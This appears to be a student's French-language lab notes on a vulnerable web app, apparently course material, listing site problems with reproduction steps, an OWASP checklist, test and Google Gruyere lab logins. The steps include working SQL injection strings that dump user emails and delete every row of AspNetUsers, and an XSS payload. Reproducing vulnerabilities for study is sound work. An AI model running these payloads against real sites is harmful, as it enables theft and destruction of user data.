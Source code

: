 ## Problemes:
- recevoir de la publicité non sollicitée depuis leur inscription sur le site en question (leek emails)
    Repro: 
    1. login 
    2. Recherche
    3. %' OR 1=1 Union select Email FROM AspNetUsers '%a
    4. try login
   
- ils ont remarqué que certaines pages de commentaires ne réagissaient pas de manière normale, certaines pages affichent plusieurs fenêtres modales (pop-up)
    Repro:
    1. login
    2. go to Comments
    3. <a ONMOUSEOVER="alert(1)" href="#">XSS Attack!!</a>


- certains membres avaient disparus de leur base de données
    Repro: 
    1. login 
    2. Recherche
    3. %' OR 1=1; Delete FROM AspNetUsers where 1=1 OR Email like '%a
    4. try login

- gestion erreur
    Repro: 
    1. login 
    2. Recherche
    3. %' OR 1=1 Union select * FROM AspNetUsers '%a
    4. try login

## Verification:
- 10 risques OWASP
- Cross site scripting
- l’injection SQL
- DDOS
- l’ingénierie sociale
- vérifier si le site utilise encore des cookies
- mettre à jour HTML5 web storage
- l’identité basé sur les revendications (claims-based identity)
- déléguer l’authentification et l’autorisation (OpenID Connect)
- des restrictions de sécurité telles que CORS et HSTS permettent de mitiger les attaques CSRF

## Fix:
- Implementer OpenID Connect


test@test.ca
Allo1!
C:\"Program Files (x86)"\sqlite\sqlite-tools-win32-x86-3390400\sqlite3.exe


## Labo:
Google Gruyere:
ID: 573467018387912866384731286805310066172
https://google-gruyere.appspot.com/573467018387912866384731286805310066172/
userTest
1234


